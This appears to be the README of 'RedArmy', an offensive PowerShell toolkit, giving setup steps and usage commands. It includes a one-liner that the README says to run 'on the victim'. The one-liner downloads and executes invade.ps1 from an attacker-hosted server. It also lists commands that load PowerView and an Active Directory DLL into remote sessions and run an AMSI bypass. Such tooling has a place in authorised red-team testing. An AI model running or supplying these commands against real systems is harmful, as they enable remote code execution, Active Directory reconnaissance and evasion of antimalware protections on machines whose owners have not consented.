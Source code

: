 # RedArmy

## Installation

```
$ git clone https://gitlab.com/mjwhitta/redarmy.git
$ cd ./redarmy
$ git submodule update --init --recursive
$ ./serve [--port PORT] [--update] <ip>
```

## Usage

Once the `serve` script is running, you can use the following to load
RedArmy on the victim:

```
PS> iex (iwr -DisableKeepAlive -UseBasicParsing http://<ip>:<port>/invade.ps1)
```

That command will also displayed for you to copy and paste for
convenience. Finally, you can deploy tools with commands like:

```
PS> iex (Get-PowerView) # Load ps1 script into current session
PS> Deploy-PowerView <session> # Load ps1 script into session

PS> Import-ADModuleDLL # Load DLL object into current session
PS> Deploy-ADModuleDLL <session> # Load DLL object into session

PS> Invoke-AMSIBypass # Run ps1 script
PS> Deploy-AMSIBypass <session> # Run ps1 script in session
```

**Note:*** `Invoke` commands are generally for things that aren't
scope specific such as modifying system settings.
